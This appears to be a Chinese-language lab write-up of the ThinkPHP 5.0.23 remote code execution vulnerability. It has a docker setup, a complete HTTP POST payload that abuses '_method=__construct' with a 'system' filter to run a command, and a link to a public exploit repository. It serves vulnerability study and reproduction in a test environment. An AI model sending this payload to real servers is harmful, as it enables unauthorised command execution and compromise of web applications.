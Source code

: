 # ThinkPHP5 5.0.23 远程代码执行漏洞

## 漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其5.0.23以前的版本中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。

参考链接：

- https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003

## 环境搭建

执行如下命令启动一个默认的thinkphp 5.0.23环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/index.php`即可看到默认的ThinkPHP启动页面。

## 漏洞复现

发送数据包：

```
POST /index.php?s=captcha HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

成功执行`id`命令：

![image-20220302151553822](images/202203021515902.png)

## 开源POC/EXP

- https://github.com/sukabuliet/ThinkphpRCE
